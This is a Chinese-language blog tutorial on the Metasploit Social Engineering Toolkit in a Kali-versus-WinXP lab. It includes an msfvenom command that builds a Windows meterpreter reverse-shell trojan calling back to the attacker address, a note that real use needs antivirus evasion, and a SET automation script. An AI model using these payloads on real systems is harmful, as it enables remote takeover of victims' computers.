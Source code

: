 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit之社会工程学工具包
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: Metasploit之社会工程学工具包
lock: need
---
```


# Metasploit之社会工程学工具包

社会工程学工具包(Social Engineering Toolkit, SET)是一套基于Python语言的工具集合，主要面向对人进行的渗透测试。使用SET可以实现多种攻击，比如：网络钓鱼攻击、网页劫持攻击、格式文件攻击等。

这里，我们同样以一个实际案例来进行说明。

攻击机 Kali 192.168.175.128

靶机 WinXP 192.168.175.130

## 生成exe木马

```bash
msfvenom -p  windows/meterpreter/reverse_tcp lhost=192.168.175.128 lport=4444  -f exe -o  shell.exe
```

注意：实际过程中，需要多exe木马进行免杀防护。

## 将木马上传到靶机

实际中，我们需要将靶机进行一系列的渗透之后，拿到靶机的系统权限，将木马上传或者下载到靶机。这里只是一个示例，我就直接将exe木马拷贝到靶机中了。

## 编写社会工程学脚本se-script

这里，我们将目录切换到Kali下的/usr/share/set目录下。

![img](https://img-blog.csdnimg.cn/2019012721093384.png)

在此目录下，创建脚本文件se-script，内容如下：

```bash
1
4
2
192.168.175.128
4444
yes
```

**注意：这个脚本的第一行为空行**
